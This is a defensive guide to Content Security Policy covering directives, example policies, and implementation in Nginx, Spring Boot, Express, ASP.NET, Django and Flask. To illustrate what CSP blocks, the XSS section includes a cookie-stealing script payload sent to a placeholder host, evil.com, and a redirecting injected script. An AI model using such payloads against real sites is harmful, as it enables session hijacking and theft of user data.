

# Content Security Policy (CSP) — Complete Guide
### For Security Engineers, DevOps Engineers, Application Developers & DevSecOps Teams

---

## Table of Contents

1. [Introduction](#introduction)
2. [Problems CSP Solves](#problems-csp-solves)
3. [How CSP Works](#how-csp-works)
4. [Common CSP Directives](#common-csp-directives)
5. [CSP Examples](#csp-examples)
6. [CSP Implementation in Nginx](#csp-implementation-in-nginx)
7. [CSP Implementation in Applications](#csp-implementation-in-applications)
8. [CSP in Nginx vs Application Code](#csp-in-nginx-vs-application-code)
9. [Should CSP Be Configured in Both Places?](#should-csp-be-configured-in-both-places)
10. [CSP Best Practices](#csp-best-practices)
11. [CSP Troubleshooting](#csp-troubleshooting)
12. [CSP Validation Tools](#csp-validation-tools)
13. [Real-world Examples](#real-world-examples)
14. [Production Recommendations](#production-recommendations)

---

## Introduction

### What is Content Security Policy (CSP)?

Content Security Policy (CSP) is a browser security mechanism delivered via an HTTP response header that tells the browser exactly which resources — scripts, styles, images, fonts, frames — are allowed to load on a web page and from which origins.

Think of CSP as a **whitelist for your browser**. Instead of allowing everything by default, CSP flips the model:

```
Without CSP:
  Browser loads everything it finds
  Inline scripts run freely
  External resources load from anywhere
  Attacker injects script → runs freely ❌

With CSP:
  Browser checks every resource against the policy
  Only whitelisted sources allowed
  Inline scripts blocked by default
  Attacker injects script → browser blocks it ✅
```

### Why CSP Was Introduced

Before CSP, browsers had no way to distinguish between legitimate scripts and injected malicious scripts. If an attacker could inject `<script>alert('xss')</script>` into a page, the browser would execute it without question.

CSP was introduced by the W3C and first supported by browsers around 2012 to give web developers a declarative way to communicate their intent to the browser — "only run scripts from these sources, nothing else."

### Common Web Application Threats CSP Addresses

```
Threat                    Description
─────────────────────────────────────────────────────────────
XSS (Cross-Site Scripting) Attacker injects malicious scripts
Content Injection          Attacker injects unauthorized content
Data Exfiltration          Stolen data sent to attacker server
Clickjacking               Page embedded in malicious iframe
Third-party Script Risks   Compromised CDN or analytics scripts
Supply Chain Attacks       Trusted third-party scripts turn malicious
```

---

## Problems CSP Solves

### Cross-Site Scripting (XSS)

XSS is the most common web vulnerability. An attacker finds a way to inject JavaScript into your page — through a form input, URL parameter, or database content — and the browser executes it.

```
Attack scenario without CSP:
  1. Attacker submits: <script>document.location='https://evil.com?c='+document.cookie</script>
  2. App stores it in database
  3. Another user views the page
  4. Browser executes the script
  5. User's session cookie sent to evil.com ❌

With CSP (script-src 'self'):
  1. Same attack — script injected
  2. Another user views page
  3. Browser checks: is this script from 'self'?
  4. Inline script — NOT from self
  5. Browser BLOCKS execution ✅
  6. User's cookie stays safe ✅
```

### Content Injection

Attackers inject unauthorized HTML content — fake login forms, misleading messages, phishing elements — into your legitimate page.

CSP's `default-src` and specific directives control what content can be loaded, preventing unauthorized external content from appearing.

### Data Exfiltration

Even without XSS, attackers can use CSS injection or other techniques to steal data and send it to an external server.

CSP's `connect-src` directive controls where your page can make HTTP requests, blocking data from being sent to unauthorized destinations.

### Clickjacking

Attackers embed your page inside an invisible iframe on their malicious site. When users click what they think is the attacker's page, they're actually clicking your page — performing unintended actions.

```
CSP solution:
  frame-ancestors 'none';
  Tells browsers: nobody can embed this page in an iframe
  Clickjacking attack fails ✅
```

### Third-party Script Risks

Modern web apps load dozens of third-party scripts — analytics, chat widgets, payment processors. Any of these could be compromised.

CSP forces you to explicitly whitelist approved sources, reducing the blast radius of a compromised third party.

### Supply Chain Attacks

The SolarWinds and event-stream npm attacks showed that trusted dependencies can be compromised. For frontend assets, CSP with hash-based policies ensures only the exact approved version of a script runs — even if the CDN is compromised.

---

## How CSP Works

### Browser Enforcement Mechanism



### HTTP Response Headers

CSP is delivered as an HTTP response header:

```http
HTTP/1.1 200 OK
Content-Type: text/html
Content-Security-Policy: default-src 'self'; script-src 'self' https://cdn.example.com;
```

Or in report-only mode (monitor without enforcing):

```http
Content-Security-Policy-Report-Only: default-src 'self'; report-uri /csp-report;
```

### CSP Directives

Directives are semicolon-separated instructions that define policies for specific resource types:

```
Content-Security-Policy: 
  default-src 'self';           ← fallback for everything
  script-src 'self' cdn.com;   ← JavaScript only from self and cdn.com
  style-src 'self' 'unsafe-inline'; ← CSS from self, inline allowed
  img-src *;                    ← images from anywhere
  report-uri /csp-violations;  ← send violations here
```

### Policy Evaluation Process

```
Browser receives page with CSP header
              │
              ▼
Browser parses CSP into directives
              │
              ▼
For every resource the page tries to load:
              │
              ▼
Find the matching directive
(script-src for JS, img-src for images etc)
              │
              ▼
If no specific directive → use default-src
              │
              ▼
Does the resource origin match the whitelist?
              │
       YES    │    NO
              │      │
              ▼      ▼
         Allow     Block + console error
         load      + send violation report
                     if report-uri set
```

---

## Common CSP Directives

### default-src

The fallback directive. If a specific directive is not defined, `default-src` applies.

```nginx
# Allow everything only from your own domain
Content-Security-Policy: default-src 'self';

# Allow from self and specific CDN
Content-Security-Policy: default-src 'self' https://cdn.example.com;
```

### script-src

Controls which JavaScript sources are allowed.

```nginx
# Most restrictive — only your own scripts
script-src 'self';

# Allow self + specific CDN + Google Analytics
script-src 'self' https://cdn.jsdelivr.net https://www.google-analytics.com;

# Allow nonce-based inline scripts (secure)
script-src 'self' 'nonce-abc123xyz';

# DANGEROUS — never use in production
script-src 'unsafe-inline' 'unsafe-eval';
```

### style-src

Controls CSS sources.

```nginx
# Only your own stylesheets
style-src 'self';

# Allow Google Fonts CSS
style-src 'self' https://fonts.googleapis.com;

# Allow inline styles (needed for some frameworks)
style-src 'self' 'unsafe-inline';
```

### img-src

Controls image sources.

```nginx
# Images from self and data URIs (for base64 images)
img-src 'self' data:;

# Allow images from CDN and S3
img-src 'self' https://cdn.example.com https://s3.amazonaws.com;

# Allow from anywhere (less secure but common for images)
img-src *;
```

### connect-src

Controls where the page can make HTTP requests (fetch, XHR, WebSocket).

```nginx
# Only API calls to your own domain
connect-src 'self';

# Allow calls to your API and analytics
connect-src 'self' https://api.example.com https://analytics.example.com;

# Allow WebSocket connections
connect-src 'self' wss://websocket.example.com;
```

### frame-src

Controls which sources can be loaded in iframes.

```nginx
# No iframes at all
frame-src 'none';

# Only allow YouTube embeds
frame-src https://www.youtube.com;
```

### frame-ancestors

Controls which pages can embed YOUR page in an iframe. This is the clickjacking protection directive.

```nginx
# Nobody can embed your page
frame-ancestors 'none';

# Only your own domain can embed it
frame-ancestors 'self';

# Only specific trusted domain
frame-ancestors https://trusted-parent.com;
```

### object-src

Controls Flash, Java applets, and other plugins. Should almost always be 'none'.

```nginx
# Disable all plugins — recommended
object-src 'none';
```

### font-src

Controls font file sources.

```nginx
# Self and Google Fonts
font-src 'self' https://fonts.gstatic.com;

# Self and data URIs for embedded fonts
font-src 'self' data:;
```

### media-src

Controls audio and video sources.

```nginx
# Only your own media files
media-src 'self';

# Allow from CDN
media-src 'self' https://media.example.com;
```

### form-action

Controls where forms can submit data. Critical for preventing form hijacking.

```nginx
# Forms can only submit to your own domain
form-action 'self';

# Submit to self and payment processor
form-action 'self' https://checkout.stripe.com;
```

### upgrade-insecure-requests

Automatically upgrades HTTP links to HTTPS. Good for legacy content.

```nginx
Content-Security-Policy: upgrade-insecure-requests;
```

### report-uri

Where to send CSP violation reports (legacy, being replaced by report-to).

```nginx
Content-Security-Policy: default-src 'self'; report-uri /csp-violations;
```

### report-to

Modern version of report-uri using the Reporting API.

```nginx
Report-To: {"group":"csp-endpoint","max_age":10886400,"endpoints":[{"url":"https://example.com/csp-reports"}]}
Content-Security-Policy: default-src 'self'; report-to csp-endpoint;
```

---

## CSP Examples

### Basic CSP

```nginx
Content-Security-Policy: default-src 'self';
```

Allows everything only from your own domain. Strictest starting point. Will break most apps that use CDNs or third-party services.

### Strict CSP

```nginx
Content-Security-Policy: 
  default-src 'none';
  script-src 'self';
  style-src 'self';
  img-src 'self';
  font-src 'self';
  connect-src 'self';
  form-action 'self';
  frame-ancestors 'none';
  base-uri 'self';
  object-src 'none';
```

Maximum restriction. Allows only your own domain for everything. Use as a starting point and add exceptions as needed.

### Production-ready CSP

```nginx
Content-Security-Policy:
  default-src 'self';
  script-src 'self' https://cdn.jsdelivr.net https://www.googletagmanager.com;
  style-src 'self' 'unsafe-inline' https://fonts.googleapis.com;
  img-src 'self' data: https://storage.googleapis.com https://www.google-analytics.com;
  font-src 'self' https://fonts.gstatic.com;
  connect-src 'self' https://api.example.com https://www.google-analytics.com;
  frame-ancestors 'none';
  form-action 'self';
  object-src 'none';
  base-uri 'self';
  upgrade-insecure-requests;
  report-uri /csp-violations;
```

### Report-Only Mode

Use this when rolling out CSP to an existing app. Monitors without breaking anything.

```nginx
Content-Security-Policy-Report-Only:
  default-src 'self';
  script-src 'self' https://cdn.example.com;
  report-uri /csp-violations;
```

Violations are reported but NOT blocked. Run this for 2-4 weeks to discover what your app actually loads, then convert to enforcing mode.

### Nonce-based CSP

Nonces allow specific inline scripts without enabling `unsafe-inline`. The nonce must be random, unique per request, and known only to the server.

```nginx
# Server generates random nonce per request
# e.g. nonce = "abc123xyz"

Content-Security-Policy: script-src 'self' 'nonce-abc123xyz';
```

```html
<!-- In your HTML — nonce must match exactly -->
<script nonce="abc123xyz">
  // This inline script is allowed because nonce matches
  console.log("Legitimate inline script");
</script>

<!-- This script is BLOCKED — no nonce -->
<script>
  // Attacker injected script — blocked ✅
  document.location = 'https://evil.com';
</script>
```

### Hash-based CSP

Instead of a nonce, compute the SHA256 hash of the exact script content and whitelist that hash.

```bash
# Compute hash of your inline script
echo -n "console.log('hello');" | openssl dgst -sha256 -binary | openssl base64
# Output: abc123...xyz=
```

```nginx
Content-Security-Policy: script-src 'self' 'sha256-abc123...xyz=';
```

```html
<!-- Allowed — hash matches -->
<script>console.log('hello');</script>

<!-- Blocked — content different, hash different -->
<script>console.log('hacked');</script>
```

---

## CSP Implementation in Nginx

### Installation Prerequisites

```bash
# Verify Nginx is installed
nginx -v

# Check current headers
curl -I https://yourapp.com | grep -i content-security
```

### Nginx Configuration Examples

#### Basic CSP in Nginx

```nginx
server {
    listen 443 ssl;
    server_name app.example.com;

    # Add CSP header to all responses
    add_header Content-Security-Policy "default-src 'self';" always;

    location / {
        proxy_pass http://backend;
    }
}
```

#### Production Nginx CSP Configuration

```nginx
server {
    listen 443 ssl http2;
    server_name app.example.com;

    # SSL configuration
    ssl_certificate /etc/ssl/certs/app.crt;
    ssl_certificate_key /etc/ssl/private/app.key;

    # Security headers block
    add_header Content-Security-Policy "
        default-src 'self';
        script-src 'self' https://cdn.jsdelivr.net https://www.googletagmanager.com;
        style-src 'self' 'unsafe-inline' https://fonts.googleapis.com;
        img-src 'self' data: https://storage.googleapis.com;
        font-src 'self' https://fonts.gstatic.com;
        connect-src 'self' https://api.example.com;
        frame-ancestors 'none';
        form-action 'self';
        object-src 'none';
        base-uri 'self';
        upgrade-insecure-requests;
        report-uri /csp-violations;
    " always;

    # Additional security headers
    add_header X-Frame-Options "DENY" always;
    add_header X-Content-Type-Options "nosniff" always;
    add_header Strict-Transport-Security "max-age=31536000; includeSubDomains" always;
    add_header X-XSS-Protection "1; mode=block" always;
    add_header Referrer-Policy "strict-origin-when-cross-origin" always;

    location / {
        proxy_pass http://backend:8080;
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
    }

    # CSP violation reporting endpoint
    location /csp-violations {
        proxy_pass http://backend:8080/api/csp-report;
        proxy_set_header Content-Type application/csp-report;
    }
}
```

### Testing Configuration

```bash
# Test Nginx config syntax before applying
nginx -t

# Output should be:
# nginx: the configuration file /etc/nginx/nginx.conf syntax is ok
# nginx: configuration file /etc/nginx/nginx.conf test is successful
```

### Reloading Nginx

```bash
# Reload without downtime (graceful reload)
nginx -s reload

# Or using systemctl
systemctl reload nginx

# Verify reload worked
systemctl status nginx
```

### Validation Steps

```bash
# Check CSP header is present
curl -I https://app.example.com | grep -i content-security-policy

# Full header dump
curl -v https://app.example.com 2>&1 | grep -A 2 "content-security"

# Check from browser
# Chrome DevTools → Network tab → click request → Headers tab
# Look for Content-Security-Policy
```

---

## CSP Implementation in Applications

### Spring Boot

```java
// SecurityConfig.java
@Configuration
@EnableWebSecurity
public class SecurityConfig {

    @Bean
    public SecurityFilterChain filterChain(HttpSecurity http) throws Exception {
        http
            .headers(headers -> headers
                .contentSecurityPolicy(csp -> csp
                    .policyDirectives(
                        "default-src 'self'; " +
                        "script-src 'self' https://cdn.jsdelivr.net; " +
                        "style-src 'self' 'unsafe-inline'; " +
                        "img-src 'self' data:; " +
                        "frame-ancestors 'none'; " +
                        "object-src 'none';"
                    )
                )
            );
        return http.build();
    }
}
```

### Java Servlet (Filter)

```java
// CSPFilter.java
@WebFilter("/*")
public class CSPFilter implements Filter {

    @Override
    public void doFilter(
        ServletRequest request,
        ServletResponse response,
        FilterChain chain
    ) throws IOException, ServletException {

        HttpServletResponse httpResponse = (HttpServletResponse) response;

        httpResponse.setHeader(
            "Content-Security-Policy",
            "default-src 'self'; " +
            "script-src 'self' https://cdn.jsdelivr.net; " +
            "style-src 'self' 'unsafe-inline'; " +
            "img-src 'self' data:; " +
            "frame-ancestors 'none'; " +
            "object-src 'none';"
        );

        chain.doFilter(request, response);
    }
}
```

### Node.js Express

```javascript
// Using helmet (recommended)
const express = require('express');
const helmet = require('helmet');

const app = express();

app.use(
  helmet.contentSecurityPolicy({
    directives: {
      defaultSrc: ["'self'"],
      scriptSrc: ["'self'", "https://cdn.jsdelivr.net"],
      styleSrc: ["'self'", "'unsafe-inline'", "https://fonts.googleapis.com"],
      imgSrc: ["'self'", "data:", "https://storage.googleapis.com"],
      fontSrc: ["'self'", "https://fonts.gstatic.com"],
      connectSrc: ["'self'", "https://api.example.com"],
      frameAncestors: ["'none'"],
      objectSrc: ["'none'"],
      formAction: ["'self'"],
      baseUri: ["'self'"],
      upgradeInsecureRequests: [],
    },
    reportOnly: false, // set true for report-only mode
  })
);

// Manual approach without helmet
app.use((req, res, next) => {
  res.setHeader(
    'Content-Security-Policy',
    "default-src 'self'; script-src 'self' https://cdn.jsdelivr.net; frame-ancestors 'none';"
  );
  next();
});
```

### ASP.NET Core

```csharp
// Program.cs
var app = builder.Build();

app.Use(async (context, next) =>
{
    context.Response.Headers.Add(
        "Content-Security-Policy",
        "default-src 'self'; " +
        "script-src 'self' https://cdn.jsdelivr.net; " +
        "style-src 'self' 'unsafe-inline'; " +
        "img-src 'self' data:; " +
        "frame-ancestors 'none'; " +
        "object-src 'none';"
    );
    await next();
});
```

### Django

```python
# settings.py
MIDDLEWARE = [
    'csp.middleware.CSPMiddleware',
    # ... other middleware
]

# CSP settings
CSP_DEFAULT_SRC = ("'self'",)
CSP_SCRIPT_SRC = ("'self'", "https://cdn.jsdelivr.net")
CSP_STYLE_SRC = ("'self'", "'unsafe-inline'", "https://fonts.googleapis.com")
CSP_IMG_SRC = ("'self'", "data:", "https://storage.googleapis.com")
CSP_FONT_SRC = ("'self'", "https://fonts.gstatic.com")
CSP_CONNECT_SRC = ("'self'", "https://api.example.com")
CSP_FRAME_ANCESTORS = ("'none'",)
CSP_OBJECT_SRC = ("'none'",)
CSP_REPORT_URI = "/csp-violations/"

# Install django-csp
# pip install django-csp
```

### Flask

```python
# app.py
from flask import Flask, Response
from functools import wraps

app = Flask(__name__)

def add_security_headers(f):
    @wraps(f)
    def decorated_function(*args, **kwargs):
        response = f(*args, **kwargs)
        if isinstance(response, str):
            response = Response(response)
        response.headers['Content-Security-Policy'] = (
            "default-src 'self'; "
            "script-src 'self' https://cdn.jsdelivr.net; "
            "style-src 'self' 'unsafe-inline'; "
            "img-src 'self' data:; "
            "frame-ancestors 'none'; "
            "object-src 'none';"
        )
        return response
    return decorated_function

@app.after_request
def set_csp_header(response):
    response.headers['Content-Security-Policy'] = (
        "default-src 'self'; "
        "script-src 'self'; "
        "frame-ancestors 'none';"
    )
    return response
```

---

## CSP in Nginx vs Application Code

| Factor | Nginx | Application Code |
|--------|-------|-----------------|
| Security | Strong — applied before app logic | Strong — but app must not override |
| Maintainability | Centralized — one place for all apps | Distributed — each app manages own |
| Flexibility | Static headers — same for all routes | Dynamic — different policies per route |
| Dynamic Policies | Difficult — requires Nginx Lua | Easy — generate per request |
| Nonce Support | Hard — requires scripting | Easy — generate per request in code |
| Operational Overhead | Low — infra team manages | Higher — dev team must implement |
| Hot Reload | Yes — nginx -s reload | Requires app deployment |
| Multi-app Coverage | Yes — covers all apps behind Nginx | Only covers that specific app |
| Framework Integration | No | Yes — use framework security features |
| Testing | Separate from app tests | Integrated with app test suite |

---

## Should CSP Be Configured in Both Places?

### Advantages of Both

```
Defence in depth:
  If Nginx config has a bug → app still sets header
  If app has a bug → Nginx still sets header
  Two layers of protection
```

### Risks — Duplicate Headers

```
Problem:
  Nginx adds: Content-Security-Policy: default-src 'self';
  App adds:   Content-Security-Policy: default-src 'self' https://cdn.example.com;

  Browser receives BOTH headers
  Browser uses the MORE RESTRICTIVE one
  OR behaviour is undefined across browsers

  Your CDN stops working ❌
  Hard to debug ❌
```

### Best Practices

```
Option 1 — Nginx only (recommended for most teams):
  Set CSP in Nginx
  Disable in application code
  Centralized, consistent, easy to audit

Option 2 — Application only:
  Remove from Nginx
  Each app manages its own CSP
  Better for nonce-based dynamic policies

Option 3 — Both (large enterprise):
  Nginx sets base policy
  Application adds to or overrides
  Use proxy_hide_header in Nginx
  to remove app header if needed
  Requires strong coordination

Rule: Never have both set without explicit coordination
      Duplicate headers cause hard-to-debug issues
```

---

## CSP Best Practices

```
1. Start with Report-Only mode
   Never go straight to enforcing
   Monitor for 2-4 weeks first
   Fix violations before enforcing

2. Never use unsafe-inline for scripts
   Use nonces or hashes instead
   unsafe-inline defeats 95% of XSS protection

3. Never use unsafe-eval
   Prevents eval(), Function(),
   setTimeout with string arguments

4. Set object-src 'none' always
   No modern app needs Flash or Java plugins

5. Set frame-ancestors 'none' or 'self'
   Prevents clickjacking

6. Set base-uri 'self'
   Prevents base tag injection attacks

7. Use upgrade-insecure-requests
   Automatically upgrades HTTP to HTTPS

8. Set up violation reporting
   report-uri or report-to
   Monitor violations in production
   Catch legitimate issues before users do

9. Review and tighten regularly
   CSP is not set and forget
   Review quarterly
   Remove unnecessary sources

10. Test with CSP Evaluator
    Use Google CSP Evaluator before deploying
    https://csp-evaluator.withgoogle.com/
```

---

## CSP Troubleshooting

### Common Issues and Fixes

| Issue | Symptom | Fix |
|-------|---------|-----|
| Inline scripts blocked | JS console: "Refused to execute inline script" | Use nonce or hash |
| CDN blocked | Resource fails to load | Add CDN to script-src or style-src |
| Google Fonts blocked | Fonts not loading | Add fonts.googleapis.com to style-src and fonts.gstatic.com to font-src |
| Google Analytics blocked | Analytics not tracking | Add google-analytics.com and googletagmanager.com to script-src and connect-src |
| Stripe blocked | Payment form broken | Add js.stripe.com and api.stripe.com |
| iframe blocked | Embedded content missing | Add source to frame-src |
| Image blocked | Images missing | Add source to img-src |
| Duplicate headers | Inconsistent behaviour | Remove CSP from one location |
| eval blocked | JavaScript errors in console | Refactor code to avoid eval() |

### Debugging Steps

```bash
# Step 1 — Check browser console
# Chrome DevTools → Console
# Look for: "Refused to load..." messages

# Step 2 — Check network tab
# Chrome DevTools → Network
# Blocked resources show as red

# Step 3 — Enable report-only first
# Add Content-Security-Policy-Report-Only header
# Check /csp-violations endpoint for reports

# Step 4 — Use CSP Evaluator
# https://csp-evaluator.withgoogle.com/
# Paste your policy and get analysis

# Step 5 — Check for duplicate headers
curl -I https://yourapp.com | grep -i content-security
# Should show only ONE CSP header
```

---

## CSP Validation Tools

| Tool | URL | Purpose |
|------|-----|---------|
| CSP Evaluator | csp-evaluator.withgoogle.com | Google's CSP analyzer |
| Mozilla Observatory | observatory.mozilla.org | Full security header check |
| Security Headers | securityheaders.com | Grade your headers |
| CSP Scanner | csper.io | Production CSP monitoring |
| OWASP ZAP | zaproxy.org | Automated vulnerability scanner |
| Chrome DevTools | Built into Chrome | Real-time CSP debugging |
| Report URI | report-uri.com | CSP violation monitoring service |

---

## Real-world Examples

### GitHub CSP

```
GitHub uses a very strict CSP including:
  script-src github.githubassets.com
  (no unsafe-inline — all scripts from CDN)
  Nonces for any inline scripts
  frame-ancestors 'none' for clickjacking protection
```

### Stripe CSP Recommendation for Merchants

```nginx
Content-Security-Policy:
  default-src 'self';
  script-src 'self' https://js.stripe.com;
  frame-src https://js.stripe.com;
  connect-src 'self' https://api.stripe.com;
```

### E-commerce Site with Google Analytics

```nginx
Content-Security-Policy:
  default-src 'self';
  script-src 'self'
    https://www.googletagmanager.com
    https://www.google-analytics.com
    https://js.stripe.com;
  style-src 'self' 'unsafe-inline'
    https://fonts.googleapis.com;
  img-src 'self' data:
    https://www.google-analytics.com
    https://www.googletagmanager.com;
  font-src 'self'
    https://fonts.gstatic.com;
  connect-src 'self'
    https://api.stripe.com
    https://www.google-analytics.com;
  frame-src https://js.stripe.com;
  frame-ancestors 'none';
  object-src 'none';
  base-uri 'self';
  form-action 'self' https://checkout.stripe.com;
  upgrade-insecure-requests;
  report-uri /csp-violations;
```

---

## Production Recommendations

```
Phase 1 — Audit (Week 1-2):
  Enable report-only mode
  Collect all violation reports
  Identify all legitimate sources
  your app loads

Phase 2 — Build policy (Week 2-3):
  Add all legitimate sources to policy
  Use CSP Evaluator to check
  Test in staging environment
  Fix any broken functionality

Phase 3 — Deploy enforcing (Week 3-4):
  Switch from Report-Only to enforcing
  Monitor violations closely
  Have rollback plan ready
  (comment out header in Nginx)

Phase 4 — Tighten (Ongoing):
  Remove unsafe-inline from script-src
  Implement nonces
  Remove overly broad sources
  Review quarterly

Monitoring:
  Set up violation reporting endpoint
  Alert on spike in violations
  (could indicate attack attempt)
  Review reports weekly

Never:
  Add unsafe-inline to script-src
  Use wildcard (*) in script-src
  Ignore CSP violations
  Skip report-only phase
```

---

*References: W3C CSP Level 3 Specification | OWASP CSP Cheat Sheet | Mozilla MDN CSP Documentation*
